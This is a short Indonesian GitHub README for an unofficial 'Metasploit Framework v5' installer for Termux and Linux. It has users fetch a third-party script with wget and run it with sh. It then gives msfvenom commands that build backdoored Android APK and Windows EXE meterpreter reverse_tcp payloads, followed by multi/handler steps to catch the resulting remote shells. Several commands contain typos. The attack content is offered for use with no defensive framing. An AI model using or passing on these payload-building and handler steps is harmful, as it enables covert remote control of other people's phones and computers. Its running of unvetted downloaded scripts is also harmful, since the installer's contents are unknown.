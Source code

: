 ## Metasploit-Framework-v5
Metasploit Versi lima kini sudah hadir dengan cara 
Installasi lebih mudah dengan sendirinya. System yang 
Setiap hari di update. Selain itu sekarang juga 
Sudah berkembang Metasploit Framework Sudah di Versi 5
Dari yang sebelumnya di versi 4.1.1
<br>
![alt text](https://github.com/INDOnimous/Metasploit-Framework-v5/blob/master/ss.png)
<br>
## Cara install Termux And Linux 

```fish
wget https://raw.githubusercontent.com/INDOnimous/Metasploit-Framework-v5/master/INDOsploit-V5.sh
sh INDOsploit-V5.sh
msfconsole 
```
### INDOnimous Homeland Scurity
•Untuk menjalankan Terminal Ketik ```msfconsole ```<br>
•Untuk membuat payload ```msfvenom ```<br>

### Cara membuat Payload apk Backdoor 
• Android 
``` fish
msfvenom -p android/meterpreter/reverse_tcp LHOS=(your IP/sah) LPORT=4444 R> /sdcard/INDOnimous.apk
```
• Windows
``` fish
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(your IP/sah) LPORT=4444 f> /desktop/INDOnimous.exe
```
### Setting database Metasploit
• Android 
```fish
1. use exploit/multi/handler 
2. set payload/meterpreter/reverse_tcp
3. set lhost (you ip/ssh)
4. set lport 4444
5. exploit
```

•• Windows
```fish
1. use exploit/multi/handler 
2. set windows/meterpreter/reverse_tcp
3. set lhost (you ip/ssh)
4. set lport 4444
5. exploit
```
